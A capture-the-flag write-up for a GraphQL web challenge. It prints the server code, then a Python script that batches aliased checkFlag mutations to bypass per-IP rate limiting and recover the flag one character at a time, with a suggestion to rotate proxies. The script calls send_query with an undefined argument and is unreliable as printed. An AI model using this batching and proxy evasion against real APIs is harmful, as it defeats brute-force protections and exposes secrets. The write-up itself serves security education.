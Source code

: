 # querying
Web, Medium

## Description

> In German, Graf means count. Anyway I'm certain he likes pie. Who doesn't? He also won't give you the Flag as he keeps track of every request. Nothing to see here, please move along. http://199.247.4.207:4000/

A tar file was attached.

## Solution

Let's inspect the tar file:

```console
root@kali:/media/sf_CTFs/36c3/querying# tree dist.tar/
dist.tar/
├── dist
│   ├── docker-compose.yml
│   ├── Dockerfile
│   ├── package.json
│   ├── package-lock.json
│   ├── prisma
│   │   ├── datamodel.prisma
│   │   ├── prisma.yml
│   │   └── seed.graphql
│   ├── src
│   │   ├── generated
│   │   │   └── prisma-client
│   │   │       ├── index.d.ts
│   │   │       ├── index.js
│   │   │       └── prisma-schema.js
│   │   ├── index.js
│   │   └── schema.graphql
│   └── yarn.lock
└── dist.tar
```

This archive contains the backend of a service. The interesting part of the backend is `index.js`:

```javascript
const { GraphQLServer } = require('graphql-yoga')
const LRU = require('lru-cache')

const { prisma } = require('./generated/prisma-client')

const MAX_WAIT = 10 * 1000 // 10 seconds

const FLAG = "junior-THIS_IS_A_DUMMY"
const FLAG_REGEX = /$junior-[a-zA-Z0-9_]24^/.compile()

const requestsPerClient = new LRU({
  max: 16 * 1024,
  maxAge: 1000 * 60
})

function bruteforceProtection(context) {
  const ip = context.request.ip
  if (context.request.headers["admin"]) {
    console.log("ip", ip)
    let requests = requestsPerClient.get(ip) || 0
    const waitTime = 15 * requests * 1000
    requestsPerClient.set(ip, requests + 1)
    return new Promise(
      resolve => setTimeout(
        () => (console.log("finished", ip, waitTime) || resolve()), waitTime
      )
    )
  }
  return Promise.resolve()
}

const resolvers = {
  Query: {
    feed: (parent, args, context) => {
      return context.prisma.posts({ where: { published: true } })
    },
    drafts: (parent, args, context) => {
      return context.prisma.posts({ where: { published: false } })
    },
    post: (parent, { id }, context) => {
      return context.prisma.post({ id })
    },
  },
  Mutation: {
    checkFlag(parent, {flag}, context) {
      if (!context.request.headers["admin"]) throw "Preheat oven!"
      if (FLAG_REGEX.exec(flag) && flag === FLAG) return FLAG.length
      let i = 0
      while (flag[i] === FLAG[i]) i++
      return i
    },
    createDraft(parent, { title, content }, context) {
      return context.prisma.createPost({
        title,
        content,
      })
    },
    deletePost(parent, { id }, context) {
      return context.prisma.deletePost({ id })
    },
    publish(parent, { id }, context) {
      return context.prisma.updatePost({
        where: { id },
        data: { published: true },
      })
    },
  },
}

const server = new GraphQLServer({
  typeDefs: './src/schema.graphql',
  resolvers,
  context: async (request, response, fragmentReplacements) => ({
    ...request,
    prisma,
    console: await bruteforceProtection(request)
  }),
})

server.start(() => console.log('Server is running on http://localhost:4000'))
```

This looks like a `GraphQL` service:

> GraphQL is an open-source data query and manipulation language for APIs, and a runtime for fulfilling queries with existing data. 

The website at `http://199.247.4.207:4000/` offered an online IDE allowing to perform queries to the backend. 

Let's take a look at `checkFlag`:

```javascript
checkFlag(parent, {flag}, context) {
    if (!context.request.headers["admin"]) throw "Preheat oven!"
    if (FLAG_REGEX.exec(flag) && flag === FLAG) return FLAG.length
    let i = 0
    while (flag[i] === FLAG[i]) i++
    return i
}
```

This function actually tells us, given a flag string that we provide, how many consecutive characters we got right. The catch is that it's protected by a `bruteforceProtection` which limits the number of queries that we can perform in a given period. 

A single request to the server would look like:

```javascript
mutation { 
    checkFlag(flag: "junior-A")
}
```

If we will receive a response of `7` from the server, we know that only the `junior-` prefix matches the flag, and we should continue to the next attempt:

```javascript
mutation { 
    checkFlag(flag: "junior-B")
}
```

Once we recive an `8`, we know that we found the correct character and move on to the next index in the flag. According to the `FLAG_REGEX`, we have 24 characters apart from the prefix. We also know that the flag only consists of uppercase and lowercase letters, digits and the underscore character. Even so, if we have to wait between every request it would take quite a while to get the full flag.

The brute force protection is coupled with the requesters IP, so one naive way of bypassing it would be to use many proxies. However, there's a better way: Batch requests.

Instead of the syntax above, we can use the following syntax:

```javascript
mutation {
  name1: checkFlag(flag: "junior-A"),
  name2: checkFlag(flag: "junior-B"),
}
```

This sends two simultaneous requests which count as one for the brute force protection. We can generalize this and send all possible options in a single request.

```python
import requests, json, string
import operator

def send_query(flag):
    alphabet = string.ascii_letters + string.digits + '_'
    prefix = "flag_"

    mutation = "mutation {"
    for c in alphabet:
        mutation += "{}: checkFlag(flag: \"{}\"),".format(prefix + c, flag + c)
    mutation += "}"

    json_data = {
        "operationName": None,
        "variables": {},
        "query": mutation
    }
    r = requests.post("http://199.247.4.207:4000/", json=json_data, headers={"admin": "1"})
    data = r.json()["data"]
    c = max(data.items(), key=operator.itemgetter(1))[0]
    return c.replace(prefix, "")

flag = ""

while len(flag) < 31:
    c = send_query(flag, proxy)
    print (c, end='', flush=True)
    flag += c
        
print("")
print(flag)
```

We still need to wait a bit between requests, but the flag returns within a reasonable time. Combined with a list of (good) proxies, the flag would return almost immediately.

The flag: `junior-Batching_Qu3r1e5_is_FUN1`